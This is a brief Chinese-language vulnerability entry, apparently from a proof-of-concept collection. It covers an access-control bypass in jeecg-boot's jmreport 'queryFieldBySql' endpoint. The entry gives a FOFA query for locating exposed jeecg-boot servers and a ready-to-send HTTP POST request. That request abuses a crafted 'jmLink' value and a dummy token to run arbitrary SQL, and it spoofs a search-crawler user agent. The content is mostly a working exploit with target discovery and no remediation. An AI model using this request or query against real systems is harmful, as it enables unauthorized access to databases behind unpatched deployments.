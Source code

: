 # jeecg-boot系统接口jmLink权限绕过漏洞

jeecg-boot系统接口jmLink权限绕过漏洞

## fofa

```yaml
body="jeecg-boot"
```



## poc

```yaml
POST /jeecg-boot/jmreport/queryFieldBySql?previousPage=xxx&jmLink=YWFhfHxiYmI=&token=123123 HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; http://www.baidu.com/search/spider.html)
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/json
Cache-Control: no-cache
Pragma: no-cache
Host: 192.168.131.100:8088
Content-Length: 21
 
{"sql":"select '1' "}
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408031043768.png)

## 漏洞来源

- https://blog.csdn.net/LiangYueSec/article/details/140840776
